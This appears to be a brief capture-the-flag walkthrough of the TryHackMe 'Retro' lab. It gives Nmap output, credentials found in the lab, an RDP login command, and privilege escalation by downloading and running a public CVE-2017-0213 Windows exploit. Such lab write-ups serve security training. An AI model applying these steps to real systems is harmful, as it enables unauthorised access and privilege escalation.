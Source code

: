 # Retro 

https://tryhackme.com/room/retro

#### Nmap

	PORT     STATE SERVICE       REASON  VERSION
	80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
	| http-methods: 
	|   Supported Methods: OPTIONS TRACE GET HEAD POST
	|_  Potentially risky methods: TRACE
	|_http-title: IIS Windows Server
	3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
	| rdp-ntlm-info: 
	|   Target_Name: RETROWEB
	|   NetBIOS_Domain_Name: RETROWEB
	|   NetBIOS_Computer_Name: RETROWEB
	|   DNS_Domain_Name: RetroWeb
	|   DNS_Computer_Name: RetroWeb
	|   Product_Version: 10.0.14393
	|_  System_Time: 2021-05-13T12:43:26+00:00
	| ssl-cert: Subject: commonName=RetroWeb
	| Issuer: commonName=RetroWeb
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2021-05-12T12:39:35
	| Not valid after:  2021-11-11T12:39:35
	| MD5:   81b9 28ab acf5 2a44 f35a dc83 dc9d d6ea
	| SHA-1: e9e6 8d10 7084 54da 91ac a8ca 6b48 a47b cb86 df6f
	| -----BEGIN CERTIFICATE-----
	| MIIC1DCCAbygAwIBAgIQOTRb4vfIcotLcB3AcNO+NjANBgkqhkiG9w0BAQsFADAT
	| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMTA1MTIxMjM5MzVaFw0yMTExMTExMjM5
	| MzVaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
	| MIIBCgKCAQEAmxkSGWh8sAzkyHXzVkgdwh6MrFxIIbFBYwX0NavkoixlPTWPZRVh
	| y+eXHcq4cTOtq6GGlLzqqqhAMCxTzj0pZCM3xlYfkkQBR2ToXex1HXsTUxCLYaV/
	| d7j01KA1xLvcla5ckfzgrdc8Hi01+QmSWvJ0qD2fOJpWboTjax4LwWFA7sGDxCby
	| WeMzininshjAUwLjEr+TtCs+pM8G24VnDRyZ+UXZwfmaotkKvVTkRyGprzDYwKdm
	| ScQ5JUMkZivZAdQXKI93lwNtUVKeeOD/CUC3xvtf23iPygTvDH8iFWU1VUkmHVKW
	| mdYlNaZazyH/lLgI+fIc6e5PVjVsU0hyMwIDAQABoyQwIjATBgNVHSUEDDAKBggr
	| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAE5qk6HdlhFA
	| POtTPMlselPNXR8N9OjjXj4rU+CWNy0n5zeyOUZMmUckpjinUP+YlsqD0/SuQ0Y8
	| dJXyJl2OaBftzBD+Q6DpP4C4NYnXWje6TtGzr/ziw/u1ca2hpK4T62IRfjhjQBGy
	| +vL7mkfxMvsxdMBJFXrTkxzqIKOUoHILo0x2jTia3JaOaggfwks5qBimUp8QWV3D
	| RX1Epk2UmNOfgJryjnMWtrwwF5tYHIPfiadGjuOAfoaCIJVVlYra3LQ+bA8SzVqx
	| TtrRLxq3N5VsAMqCF7nMMYI1deie2nEMGwFqoDZMcKw+9R0bpG5DcDpHYCfzDh9l
	| L4EdHs5bOwo=
	|_-----END CERTIFICATE-----
	|_ssl-date: 2021-05-13T12:43:33+00:00; +1m18s from scanner time.
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Host script results:
	|_clock-skew: mean: 1m17s, deviation: 0s, median: 1m17s


80/Http is windows server IIS 10.0

/retro dir found this using wordpress 5.2.1

while looking into retra we got user pass

wade:parzival

then connect with rdp

	xfreerdp /u:wade /v:10.10.53.48:3389

we got user.txt

### Privsec

In windows desktop has chrome just open it and checking history we got **CVE-2017-0213**

Download here! https://github.com/WindowsExploits/Exploits/blob/master/CVE-2017-0213/Readme.md

and send to your victim machine then run

	./CVE-2017-0213_x64.exe

you got root!